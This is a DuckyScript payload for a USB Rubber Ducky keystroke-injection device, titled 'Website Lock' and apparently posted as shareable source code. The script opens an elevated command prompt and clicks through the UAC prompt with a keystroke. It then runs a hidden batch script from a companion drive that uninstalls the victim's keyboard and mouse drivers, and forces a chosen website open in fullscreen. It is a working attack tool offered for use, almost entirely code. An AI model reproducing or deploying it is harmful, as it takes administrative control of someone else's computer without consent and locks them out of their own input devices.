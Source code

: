 The explanation is in the code.
Link to other files: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0 (same link as the one in the code)

Code:
REM Title: Website Lock
REM Author: Audiack
REM Target Ducky Encoder: 2.6.2
REM Target OS: Windows 7 (32 and 64 bit), maybe older/newer windows versions. Haven't tested it on any other than 7.
REM Description: Plays off of Aprizm's script to open a website, but it also disables the mouse and keyboard so the user can't leave the website.
REM Info:
REM     The user can easily unplug and re-plug in the keyboard/mouse to reinstall the drivers get them working again. 
REM     This requires the user to plug a USB drive in with some extra files BEFORE the ducky is plugged in. 
REM     The files are here: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0.
REM     Make sure the files are in the root of a drive called DUCKY.
REM     Twin duck works well with this. It is what I used when I was testing it. 
REM File Descriptions:
REM     The devcon32 & devcon64 are the files used to uninstall the keyboard and mouse drivers (for the two architectures).
REM     The invisible.vbs is used to run the batch script invisibly after the video is in fullscreen.
REM     The TheRealAnnoyance.bat is the batch script run in the background that disables their mouse & keyboard.
REM     The WebsiteLink.txt contains the website link. The user can change this as desired. Make sure there are no spaces and there is only a single link.
DELAY 3000
CTRL ESC
DELAY 700
STRING cmd
CTRL-SHIFT ENTER
DELAY 3000
ALT Y
DELAY 700

STRING for /f %d in ('wmic.exe volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%d
ENTER
DELAY 1200
STRING cd /d %myd%
ENTER

DELAY 1000
STRING type "WebsiteLink.txt" | clip
ENTER
DELAY 100
STRING C:/windows/System32/wscript.exe invisible.vbs TheRealAnnoyance.bat
ENTER
DELAY 400

REM Aprizm's code for youtube roller begins here. I changed the link to a ctrl-v so that the ducky pastes the contents of WebsiteLink.txt hence line 20: 'type "WebsiteLink.txt" | clip'
REM Title: Youtube Roller
REM Author: Aprizm
REM Description: This scripts opens a youtube video in fullscreen and puts the browser in fullscreen
REM Option : if you change the link of the video dont forget to change the watch with watch_popup to have it fullscreen also add &loop=1 at the end to make it loop forever
DELAY 200
GUI r
DELAY 200
CTRL V
ENTER
DELAY 1000
F11